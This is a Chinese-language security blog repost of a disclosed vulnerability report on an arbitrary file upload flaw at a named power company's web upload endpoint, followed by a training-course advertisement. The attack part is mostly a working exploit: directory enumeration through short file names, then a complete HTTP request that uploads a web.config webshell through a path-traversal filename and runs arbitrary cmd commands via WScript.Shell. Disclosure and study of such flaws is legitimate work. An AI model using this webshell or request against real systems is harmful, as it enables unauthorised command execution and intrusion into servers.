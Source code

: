 #  某电力公司web.config的RCE之旅   
点击关注👉  马哥网络安全   2025-04-19 09:02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAk1nlByTOFiahZKGHekfZGC1V0p6QaXc4CnbPBMZQuFGAnW00CX43Xk9JXONUTxeqYxActf31UiajMg/640?wx_fmt=png&from=appmsg "")  
  
报告来源于某漏洞平台，是已公开的报告，作者：  
@Kaibro  
  
  
**0x01 叙述**  
  
https://ebppsmtp.taipower.com.tw/uploadfile/UploadFile.aspx  
 存在任意文件上传漏洞，上传文件內容及路径攻击者可控。  
  
由于 web目录不在常见路径下，所以沒办法直接写入 webshell  
  
但因为该路径使用短文件名格式，且不存在或无法写入路径会提示上传失败，所以可以穷举目录结构：  
```
- c:/var/
  - customers
  - delta
  - docs
  - downloads
  - FolderRequest
  - export
  - images
  - import
  - list
  - logfiles
  - quest
  - report
  - temp
  - templates
  - update
  - uploads
  - users
  - featur~1
  - subscr~1
  - unsubs~1
  - return~1
  - replym~1
  - receiv~1
```  
  
  
**0x02 上传文件过程**  
  
经过研究后发现实体路径C:/var/*下的內容对应到网站路径的   
https://ebppsmtp.taipower.com.tw/var/*  
由于尝试上传 asp / aspx / asmx 皆未被解析，故改以写入 web.config 方式，成功取得系統控制权限。  
  
上传 web.config webshell：  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/XOPdGZ2MYOeNqsHBkCST6xmT5MqwHAptEPU7FFCGyy71GJ6Lg44Fr6FDeB6llAia55SmUkhgyMN1jlhiatTw9Zqw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
执行命令  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/XOPdGZ2MYOeNqsHBkCST6xmT5MqwHApt71c1ge26bdB4UuBMnceQF5WxJrbguFJ6Msu8Ro5NCL3HbMtg0GLMPA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
执行 ipconfig 确认该机器位于 10.X.X.X 网段  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/XOPdGZ2MYOeNqsHBkCST6xmT5MqwHApt5iboiaZicn6TFbn4Co8fqkhutAQqllmTViaOLiaWmgoKg4CfuXkLLuvQuKg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
上传 web.config webshell 请求包：  
```
POST /uploadfile/UploadFile.aspx HTTP/1.1
Host: ebppsmtp.taipower.com.tw
Cookie: ASP.NET_SessionId=g0mm3f454prtib55g5nwkj45
Content-Length: 1354
Origin: https://ebppsmtp.taipower.com.tw
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv00ZBQrKTDBA8xQS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close

------WebKitFormBoundaryv00ZBQrKTDBA8xQS
Content-Disposition: form-data; name="UploadFile"; filename="hi.txt"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<%
Response.Write("-"&"->")
Function GetCommandOutput(command)
    Set shell = CreateObject("WScript.Shell")
    Set exec = shell.Exec(command)
    GetCommandOutput = exec.StdOut.ReadAll
End Function
Response.Write(GetCommandOutput("cmd /c " + Request("cmd")))
Response.Write("<!-"&"-")
%>
-->

------WebKitFormBoundaryv00ZBQrKTDBA8xQS
Content-Disposition: form-data; name="UploadFileName"

../../../../../var/uploads/web.config
------WebKitFormBoundaryv00ZBQrKTDBA8xQS--
```  
  
文  
章由潇湘信安排版，内容源自网络，侵删  
  
  
  
**今日福利**  
  
  
2025年网络安全大师班是今年更新的系统培训课程，欢迎大家咨询参加！  
  
本培训旨在为对安全感兴趣的师傅们提供系统的安全学习路线，在短时间内习得网络安全领域的关键技能，涵盖8个主要方向：  
- web安全  
  
- 攻防渗透  
  
- 云安全  
  
- 安全防御体系  
  
- 系统防护  
  
- 代码审计  
  
- DevSecOps  
  
- 安全开发  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/ITPWXgj1yo5RyPwl02uy8GfKHSsOIBgMliaQ5tuNQia3KbGCCL6N1tIx6n8iaOqad5FiaDmEb3UIYgOK3X7ErJn6UA/640?wx_fmt=jpeg&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
完整版课程内容  
  
请扫码备注：  
安全大纲，免费领取  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnRc6Fq9n0XQIbiaYAQ8uLx8Ea7su1Yy6w5Ajib9o4varB47IU0ocHa7QxQUHTDWa3xqtPUDLgR4yhw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
扫码咨询更多课程详情及优惠  
  
